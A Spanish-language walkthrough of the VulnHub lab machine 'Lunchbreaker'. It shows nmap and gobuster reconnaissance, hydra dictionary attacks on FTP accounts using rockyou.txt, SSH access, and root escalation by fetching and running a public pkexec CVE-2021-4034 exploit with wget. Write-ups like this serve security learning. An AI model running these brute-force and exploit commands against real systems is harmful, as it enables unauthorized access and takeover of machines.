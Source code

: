 ```yaml
---
title: Lunchbreaker
date: 2024-07-16
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


Buenas, en esta máquina realizaremos un **ataque de diccionario** para encontrar la contraseña de un ususario del servicio **FTP**, dentro del servicio encontraremos más usuarios con archivos dentro de sus directorios que deberemos explotar, para la escalada de privilegios nos aprovecharemos de una antigua versión de **pkexec**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con NMAP, para comprobar los que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.159 -n -Pn -v
```

![picture](/assets/images/vulnhub/lunch1.png){: w="600" h="300" }

Vamos a volver a realizar un escaneo de los 3 puertos encontrados, para comprobar las versiones, y lanzar una serie de scripts predefinidos de NMAP, para ver si puede encontrar algo interesante.

```bash
nmap -p21,22,80 -sV -sC 192.168.1.159 -v
```

![picture](/assets/images/vulnhub/lunch2.png){: w="600" h="300" }

Encontramos el ussuario **Anonymous** activo, nos metemos en el servicio **FTP** con el usuario **Anonymous** y nos descargamos los archivos **supers3cr3t** y **.s3cr3t** ya que *Wordpress* es un directorio.

![picture](/assets/images/vulnhub/lunch3.png){: w="600" h="300" }

El contenido del archivo **supers3cr3t** está cifrado en **brainfuck**, así que vamos a internet a intentar descifrarlo.

![picture](/assets/images/vulnhub/lunch4.png)
![picture](/assets/images/vulnhub/lunch5.png)

Y el archivo **.s3cr3t** está crifrado en **base64**, así que vamos a descifrarlo.

![picture](/assets/images/vulnhub/lunch6.png)
![picture](/assets/images/vulnhub/lunch7.png)

Vamos a comprobar de que se trata la página web.

Lo único que podemos encontrar es un posible nombre de usuario inspeccionando el código de la página.

![picture](/assets/images/vulnhub/lunch8.png)

Vamos a realizar **Fuzzing** para ver si encontramos algo.

```bash
gobuster dir -u http://192.168.1.159 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```
No encontramos nada interesante.

![picture](/assets/images/vulnhub/lunch9.png)

---

## **Explotación**

Con el nombre de ususario encontrado, vamos a intentar encontrar la contraseña para el servicio de **FTP**, utilizando un ataque de diccionario con la herramienta **Hydra**.

```bash
hydra -t 64 -l jane -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

Y obtenemos la contraseña.

![picture](/assets/images/vulnhub/lunch11.png)

Accedemos mediante las credenciales en el servicio **FTP**, y encontramos un archivo "**keys.txt**" que nos vamos a descargar en nuestra máquina local.

![picture](/assets/images/vulnhub/lunch12.png){: w="600" h="300" }

El contenido del archivo parece estar encriptado.

![picture](/assets/images/vulnhub/lunch13.png)

Buscando en el servicio **FTP**, encontramos mas directorios personales de otros usuarios.

![picture](/assets/images/vulnhub/lunch14.png){: w="600" h="300" }

Vamos a realizar ataques de diccionario, para intentar encontrar la contraseña de los otros usuarios encontrados en el servicio **FTP**. 

```bash
hydra -t 64 -l jim -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

```bash
hydra -t 64 -l jules -P /usr/share/wordlists/rockyou.txt 192.168.1.159 ftp
```

Encontramos la contraseña del usuario **jim** y **jules**.

![picture](/assets/images/vulnhub/lunch15.png)

Accedemos mediante **FTP** y sus credenciales.

En el directorio de **jim** no encontramos nada, pero en el de **jules**, encontramos un directorio oculto llamado **".backups"**, y dentro de el, archivos de credenciales, nos los descargamos y comprobamos que son contraseñas.

![picture](/assets/images/vulnhub/lunch16.png)
![picture](/assets/images/vulnhub/lunch17.png)

Ahora intentaremos realizar un ataque de diccionario con los archivos encontrados para intentar encontrar las credenciales de usuario **john**.

Encontramos la contraseña de **FTP**.

![picture](/assets/images/vulnhub/lunch18.png)

Probando con las contraseñas encontradas, intento conectarme mediante el servicio **SSH**, y obtengo resultado con **jules**.

![picture](/assets/images/vulnhub/lunch19.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Dentro de la máquina, viendo los procesos que se están ejecutando en la máquina en búsqueda de escalada de privilegios encontramos el siguiente.

![picture](/assets/images/vulnhub/lunch20.png)

Si buscamos su versión, nos sale la ***0.105***.

![picture](/assets/images/vulnhub/lunch21.png)

Buscando en internet encontramos la vulnerabilidad [**CVE-2021-4034**](https://github.com/joeammond/CVE-2021-4034), la cual nos permite escalar los máximos privilegios.

Nos descargamos el script de **Python**.

```bash
wget https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py
```

![picture](/assets/images/vulnhub/lunch22.png)

Lo ejecutamos, y obtenemnos una shell de **root**.

![picture](/assets/images/vulnhub/lunch23.png)

Podemos leer la única **flag** que tiene la máquina.

![picture](/assets/images/vulnhub/lunch24.png){: w="600" h="300" }


